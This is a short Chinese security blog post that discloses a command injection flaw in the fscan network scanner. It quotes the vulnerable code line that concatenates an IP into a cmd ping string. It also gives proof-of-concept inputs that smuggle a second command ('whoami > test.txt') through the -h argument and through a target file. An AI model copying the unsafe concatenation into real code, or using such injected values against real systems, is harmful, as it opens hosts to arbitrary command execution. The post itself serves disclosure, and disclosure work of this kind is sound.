 #  fscan存在命令注入漏洞[doge][doge]   
原创 qianbenhyu  小肥羊安全   2024-12-16 09:36  
  
一个国外的哥们在fscan项目提了个issue。大概说的是fscan存在一个命令注入的漏洞。存在漏洞的代码如下  
```
# Vulnerable way to build command
command = exec.Command("cmd", "/c", "ping -n 1 -w 1 "+ip+" && echo true || echo false")
```  
  
这段代码之间拼接了ping命令和IP，因此可以达到命令注入的目的。  
  
fscan提供两种输入目标的方式，-h 和 -hf。  
  
单个IP如下  
```
./fscan -h "127.0.0.1; whoami > test.txt" -m icmp
```  
  
IP文件如下  
  
ips.txt  
```
127.0.0.1
;whoami>test.txt
```  
  
命令执行  
```
./fscan -hf ips.txt -m icmp
```  
  
  
  
不过都能运行fscan了，为什么还要命令注入呢。如果有人二开fscan，提供了web远程扫描的功能，这种存在威胁。  
  
